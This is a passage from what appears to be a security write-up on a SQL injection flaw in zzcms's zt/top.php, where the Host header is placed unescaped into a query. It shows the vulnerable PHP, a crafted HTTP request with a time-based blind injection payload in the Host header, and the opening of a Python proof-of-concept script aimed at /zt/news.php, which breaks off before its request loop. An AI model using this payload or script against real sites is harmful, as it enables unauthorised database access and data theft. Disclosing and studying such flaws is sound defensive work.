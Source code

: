 get the current user of mysql:

![image-20180916010415143](/Users/kunkun/Library/Application Support/typora-user-images/image-20180916010415143.png)

------

## 9. SQL Injection in zt/top.php with HTTP_HOST

the following code using  $_SERVER['HTTP_HOST'] in sql expression without any checking bettween line 1  and 6

```php
<?php
//echo $_SERVER['REQUEST_URI'];
$editor=isset($_REQUEST['editor'])?$_REQUEST['editor']:'';
$editor=substr($_SERVER['HTTP_HOST'],0,strpos($_SERVER['HTTP_HOST'],'.'));
$rs=query("select * from zzcms_userdomain where domain='".$_SERVER['HTTP_HOST']."' and passed=1 and del=0");
$row=num_rows($rs);
```

the zt/top.php cannot be access directly, we should access another page such as zt/news.php which include top.php

```php
<?php
include("../inc/conn.php");
include("../inc/fy.php");
include("top.php");
include("bottom.php");
include("left.php");

$fp="../skin/".$skin."/news.htm";
if (file_exists($fp)==false){
```

 so attack could make poc like:

```http
GET /zt/news.php?id=1 HTTP/1.1
Host: aaa' union select 1,2,3,4,(select if(user()='root@localhost',sleep(1),1)) #
```

the python3 poc as following:

```python
#/usr/local/bin/python3
# -*-coding:utf-8-*-
 
import requests
import time

def zs_sqli(host):
    payloads = '-.@_abcdefghijklmnopqrstuvwxyz0123456789{}'
     
    result = ""

    headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/59.0.3071.115 Safari/537.36",
               "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8",
               "Accept-Language": "zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3",
               "Accept-Encoding": "gzip, deflate",
               "Connection": "keep-alive",
               }
    cookies = {"bdshare_firstime":"", "PHPSESSID":"", "UserName":"", "PassWord":""}
    url = "http://%s/zt/news.php" % host
    #proxies = {"http":"http://127.0.0.1:8080"}
    proxies = ""
```